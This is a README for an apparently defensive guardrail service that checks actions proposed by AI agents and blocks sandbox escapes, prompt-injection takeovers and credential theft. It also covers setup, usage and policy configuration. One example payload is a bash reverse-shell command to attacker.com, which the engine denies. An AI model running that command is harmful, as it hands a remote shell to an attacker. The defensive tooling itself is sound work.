

# Containment — Stop AI Agent Sandbox Escapes
> Your agent asks first. The escape never runs.

**Containment** is an action-level security firewall and real-time guardrail system for autonomous AI agents. By intercepting proposed terminal commands, filesystem reads/writes, HTTP network requests, and custom tool invocations before they are executed, Containment blocks indirect prompt-injection takeovers, reverse shell connection attempts, sensitive host file traversal, and cloud credential harvesting.

For a comprehensive technical deep-dive into the security models, core components, and database structures, please see our [Technical Documentation](TECHNICAL_DOCUMENTATION.md).

---

## Key Features

* **Interactive Sandbox Simulation**: Input a public GitHub repository URL, instantly clone and map its code structure, and review a tailored step-by-step action plan displaying both standard operations and realistic sandbox-escape attempts.
* **Deterministic Guard Engine**: Uses command normalization, relative path-traversal resolution, DNS rebinding detection, and context-aware prompt-injection scanning to calculate a dynamic risk score under 10ms.
* **Dynamic Security Policy & Version Control**: Instantly toggle protection vectors (Command Execution, Filesystem Access, Network Egress, Prompt Injection), set custom risk thresholds, configure domain allowlists, and track complete policy version histories.
* **Advisory AI Risk Layer**: Deterministic rules stay the enforcer; on top of them, an optional AI second opinion scores each logged action, explains it in plain English, and flags when it *disagrees* with the rule-based verdict — surfacing missing rules and false positives without ever changing a decision.
* **Human-in-the-Loop Approvals**: Pause and gate risky actions in a centralized queue, complete with an automated, context-aware AI security review suggesting clear preconditions and recommendations.
* **Security Audit Logs**: Maintain a complete, immutable history of all evaluated actions and generated verdicts, fully cross-referenced with active policy versions.
* **Printable PDF Reports**: Export fully styled, date-stamped audit logs listing containment status, risk ratios, and detailed rule-by-rule evaluations.
* **Production REST API**: Integrate Containment with any external agent framework using our high-performance HTTP endpoint and secure API keys.

---

## Sample Containment Report

Curious to see what Containment's security evaluation and action-level audit logs look like in practice?

We have compiled a comprehensive sample report demonstrating the security verdicts and simulation outcomes of our guardrail system:

👉 **[View the Sample Containment PDF Report](./containment-report-ritvikindupuri-CIRRUS_Cloud_Audit-2026-08-05.pdf)**

This sample audit report showcases:
* **Interactive Run Statistics**: Overall risk mitigation ratios, total intercepted actions, and dynamic risk scores.
* **Granular Action Logs**: Step-by-step evaluations of ordinary setup commands versus blocked sandbox-escape attempts.
* **Deterministic Guard Verdicts**: Clear rule-by-rule breakdowns demonstrating how security policies are evaluated and enforced in real-time.
* **Human-in-the-Loop Reviews**: Representative audit trails of manual approvals, rejections, and context-aware security resolutions.

---

## System Architecture

Containment uses a layered architecture to secure agent execution environments. The web application is built on TanStack React Start, and the core Guard Engine runs statelessly on an edge-ready Nitro server. The application state, policy parameters, and security logs are managed by Supabase PostgreSQL database tables.


<p align="center"><em>Figure 1: Containment Real-Time Protection System Architecture Diagram</em></p>

### Flow-by-Flow Explanation

To understand how Containment intercepts threats, consider a typical workflow when a deployed AI agent proposes a security-sensitive command:

1. **Step 1: Action Proposal**
   The autonomous AI agent determines its next action (e.g., executing a command or downloading a file). Instead of executing the action immediately, the agent framework intercepts the call and sends a JSON payload to the Containment API:
   ```json
   {
     "type": "shell",
     "command": "bash -i >& /dev/tcp/attacker.com/4444",
     "agent_id": "production-agent-01"
   }
   ```

2. **Step 2: API Request & Authentication**
   The request is received by the secure REST endpoint `/api/public/v1/guard`. The server extracts the authentication key from the `x-guard-key` header, hashes it using SHA-256, and queries the Supabase database to verify the key and retrieve its associated workspace security policy.

3. **Step 3: Core Evaluation**
   The payload is sent to the stateless **Guard Engine (`engine.ts`)**. The engine performs key normalization steps, such as removing escaped characters and resolving directory paths. It then runs high-severity detection rules against the normalized input. In this case, the command triggers the `SHELL_REVERSE_SHELL` rule with a severe risk score of 100.

4. **Step 4: Verdict Computation**
   The system compares the calculated risk score against your active policy thresholds:
   - **Risk Score >= Deny Threshold (default 60)**: Returns `DENY`.
   - **Risk Score >= Approval Threshold (default 35)**: Returns `HOLD` and routes the action to the human approval queue.
   - **Risk Score < Approval Threshold**: Returns `ALLOW`.

5. **Step 5: Logging & Audit Trail**
   The calculated verdict, risk score, triggered rules, and raw action payload are logged to the `decisions` table in the database. The API key's `last_used_at` timestamp is updated automatically.

6. **Step 6: Enforced Response**
   The API returns a response containing the verdict and triggered rules to the caller:
   ```json
   {
     "verdict": "deny",
     "risk_score": 100,
     "summary": "Blocked: reverse shell attempt."
   }
   ```
   The agent framework receives this response and blocks the execution, preventing the escape attempt from running.

---

## Tech Stack

* **AI & Planning Model**: [OpenAI GPT-5.6-sol](https://openai.com/) (integrated via the secure Lovable AI Gateway)
* **Frontend Framework**: [React 19](https://react.dev/) with [TypeScript](https://www.typescriptlang.org/)
* **Routing & Meta-framework**: [TanStack Start](https://tanstack.com/start/latest) / [TanStack React Router](https://tanstack.com/router/latest)
* **CSS & Design**: [Tailwind CSS v4](https://tailwindcss.com/) with [Shadcn UI](https://ui.shadcn.com/) and [Lucide Icons](https://lucide.dev/)
* **Database & Auth**: [Supabase](https://supabase.com/) (Postgres DB, GoTrue Authentication, Row-Level Security)
* **PDF Engine**: [jsPDF](https://github.com/parallax/jsPDF) for generating printable reports
* **Deployment & Runtime**: [Vite](https://vite.dev/) and [Nitro Server](https://nitro.unjs.io/) (via Bun / Node.js)

---

## Detailed Setup Instructions

You can run Containment locally using **Bun** or **NPM**. Ensure you have Node.js (v18+) or Bun (v1.0+) installed before starting.

### Setup using Bun (Recommended)

1. **Clone the Repository**
   ```bash
   git clone <repository-url>
   cd <repository-name>
   ```

2. **Install Dependencies**
   ```bash
   bun install
   ```

3. **Configure Environment Variables**
   Create a `.env` file in the root directory and add your Supabase credentials:
   ```env
   SUPABASE_PROJECT_ID="your_supabase_project_id"
   SUPABASE_URL="https://your_supabase_url.supabase.co"
   SUPABASE_PUBLISHABLE_KEY="your_supabase_anon_key"
   VITE_SUPABASE_PROJECT_ID="your_supabase_project_id"
   VITE_SUPABASE_URL="https://your_supabase_url.supabase.co"
   VITE_SUPABASE_PUBLISHABLE_KEY="your_supabase_anon_key"
   ```

4. **Run the Development Server**
   ```bash
   bun run dev
   ```
   Open your browser and navigate to `http://localhost:3000`.

---

### Setup using NPM

1. **Clone the Repository**
   ```bash
   git clone <repository-url>
   cd <repository-name>
   ```

2. **Install Dependencies**
   ```bash
   npm install
   ```

3. **Configure Environment Variables**
   Create a `.env` file in the root directory:
   ```env
   SUPABASE_PROJECT_ID="your_supabase_project_id"
   SUPABASE_URL="https://your_supabase_url.supabase.co"
   SUPABASE_PUBLISHABLE_KEY="your_supabase_anon_key"
   VITE_SUPABASE_PROJECT_ID="your_supabase_project_id"
   VITE_SUPABASE_URL="https://your_supabase_url.supabase.co"
   VITE_SUPABASE_PUBLISHABLE_KEY="your_supabase_anon_key"
   ```

4. **Run the Development Server**
   ```bash
   npm run dev
   ```
   Open your browser and navigate to `http://localhost:3000`.

---

## Detailed "How to Use" Guide

Follow these steps to run a complete simulation and connect your production agent.

### Step 1: Account Access
1. Start the application using your chosen package manager and open `http://localhost:3000`.
2. Click **Sign in** or **Contain my agent** on the landing page to access the login panel.
3. Sign up with a valid email and password, or use the pre-configured credentials if available.

### Step 2: Ingest a Repository
1. Navigate to the **Console** (`/console`) page. This page guides you through setting up a repository security policy step-by-step.
2. In the input box under **Step 1: Point us at a repository**, enter a public GitHub URL (e.g., `https://github.com/expressjs/express`) or select one of the pre-configured examples.
3. Click **Ingest Repository**. The application will analyze the repository structure and configuration files to build a custom simulation plan.

### Step 3: Approve Security Policy
1. Scroll down to **Step 2: Approve the suggested policy**.
2. Review the policy recommendations generated specifically for your repository (including custom domain allowlists and blocked execution vectors).
3. Click **Approve this policy** to apply the configuration. This policy will immediately go live as `v1`.

### Step 4: Run Manual Test Actions
1. Go to **Step 3: Try the suggested actions**.
2. Locate the suggested test cases derived from your repository.
3. Click **Run** on a safe action (such as a dependency install) to see an `ALLOW` verdict.
4. Click **Run** on a dangerous action (such as a reverse shell) to see how the engine instantly detects and blocks the threat.
5. *Optional*: Under any verdict, click **Get a second opinion** to run the advisory AI risk layer. It returns its own risk score, a plain-English read, and whether it agrees with the rule-based verdict. It never changes the verdict — use disagreements to spot a rule you should add or an allowlist entry you're missing.
6. *Optional*: Expand the custom actions menu to input your own terminal commands, filesystem paths, or simulated prompt-injection strings to test the policy rules in real-time.

### Step 5: Execute the Live Agent Run Simulation
1. Scroll to **Step 4: Watch the whole agent run** and click **Open the live run**, or navigate directly to the **Live Run** tab (`/agent-run`).
2. Click **Run Actions**. This starts a step-by-step agent simulation executing ordinary setup commands and realistic sandbox escape attempts.
3. Watch the visual timeline update in real-time.
   - Safe actions are logged as **Allowed** with low risk scores.
   - Risky actions (such as credential harvesting or network exfiltration) are instantly intercepted and **Blocked**.
   - Borderline actions are flagged as **Held for human approval**, and the simulation is paused automatically.

### Step 6: Human-in-the-Loop Approvals
1. When the simulation pauses on an action requiring approval, review the action details.
2. Click **Ask AI Reviewer** to analyze the context. The built-in security assistant will provide a recommended decision, detailed reasoning, and any safety preconditions.
3. Click **Approve** or **Reject** and add an optional resolution note.
4. If approved, the action is allowed and the simulation continues running.

### Step 7: Export PDF Reports
1. Once the simulation run completes, click **Download PDF report** on the side metrics panel.
2. The application will compile the run details, overall risk stats, active policy versions, and detailed decision tables into a formatted PDF report.

### Step 8: View the Audit Trail
1. Click the **Audit Trail** (`/dashboard`) tab.
2. Review the centralized log showing the last 200 security verdicts, risk scores, and active policy versions.
3. Filter decisions by category (**Blocked**, **Needs Approval**, or **Allowed**) using the top filtering buttons.
4. Click on any log entry to view detailed rules, evidence matches, and raw JSON payloads.

### Step 9: Configure Custom Policies
1. Navigate to the **Guard Rules** (`/policy`) tab.
2. Switch individual protection vectors on or off.
3. Adjust the **Deny** and **Approval** risk score sliders.
4. Input custom allowed domains (e.g., `api.github.com`), writable system directories, or human-gated tools.
5. Enter a change note in the **What changed?** field and click **Save as vX**. Every subsequent agent call will be evaluated against this new version.

### Step 10: Connect Your Production Agent
1. Navigate back to the **Console** (`/console`) page and scroll down to **Step 5: Deploy: connect your production agent**.
2. Enter a name for your production workspace and click **Create Key**.
3. **Copy the generated key immediately** (`agk_live_...`). It will only be displayed once for security reasons.
4. Select your preferred integration tab (**cURL**, **TypeScript**, or **Python**) to view customized code snippets.
5. Copy and paste the snippet into your production agent's tool-execution pipeline. Your agent will now query Containment for validation before executing any action.
